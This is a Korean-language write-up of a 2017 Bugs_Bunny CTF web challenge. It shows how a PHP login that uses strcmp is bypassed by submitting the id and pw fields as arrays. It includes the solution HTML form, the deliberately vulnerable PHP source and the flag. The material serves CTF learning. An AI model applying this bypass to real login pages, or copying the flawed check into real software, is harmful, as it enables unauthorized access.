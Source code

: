 # 2017 Bugs_Bunny CTF - [Web] Old php vuln
## Problem
```
Hey ,Agent 
Your mission is to hack this secure portal .
Good luck.
http://52.53.151.123/web/web35.php
```

## Solution
[*] 해당 문제는 라이트업을 통하여 문제를 재구성하여 풀었으므로, 실제의 문제내용과는 틀릴 수 있습니다. 문제에 대한 더 자세한 라이트업은 동영상으로 되어있으니, 맨 마지막에 링크 첨부하겠습니다.

처음 문제 페이지에 접속을 하면 로그인창이 나오는데, 문제가 `old php vuln` 인 것으로 보아서
`strcmp` 구문의 취약점을 생각 할 수가 있다.

`POST` 값으로 전송되어지는 `id`, `pw` 파라미터값을 `id[]`, `pw[]` 이런 식으로 `Array`형태로 만들어서 전송을 하면, 플래그를 확인할 수가 있다.

`Bugs_Bunny{65755da329b8770c3e11e7ccba37f4e3}`


## Solution Code
```
<!DOCTYPE html>
<html>
<head>
	<title> Solve.html </title>
</head>
<body>
<form action="127.0.0.1/prob/index.php" method="POST">
<input type="text" name="id[]"><br>
<input type="text" name="pw[]"><br>
<input type="submit" value="OK">
</form>
</body>
</html>
```

## Problem Code
```
<?php

function solve() {
	echo "Hello, admin! <br>Bugs_Bunny{65755da329b8770c3e11e7ccba37f4e3}";
}


$id = $_POST['id'];
$pw = $_POST['pw'];

if(isset($id) && isset($pw)) {
	if(strcmp($id, "admin")==0) {
		if(strcmp($pw, "sotodrkrdpsxmdhkdltmsmswjddusdlchlrhrhdkdldhdkdlsmschldbwjddlchlrhdlsemt")==0) {
			@solve();
		} else {
			echo "You are not admin! :( <br><a href='index.php'> Back </a>";
		}
	} else {
		echo "You are not admin! :( <br><a href='index.php'> Back </a>";
	}
} else {
	?>
	<!DOCTYPE html>
	<html>
	<head>
		<title> Admin Login Page </title>
	</head>
	<body>
	<form method="POST">
	<input type="text" name="id"><br>
	<input type="text" name="pw"><br>
	<input type="submit" value="Login">
	</form>
	</body>
	</html>
	<?
}
?>
```

## Other Write-Ups
[Write-Up in Youtube](https://www.youtube.com/watch?v=gWEbrLftMu4)
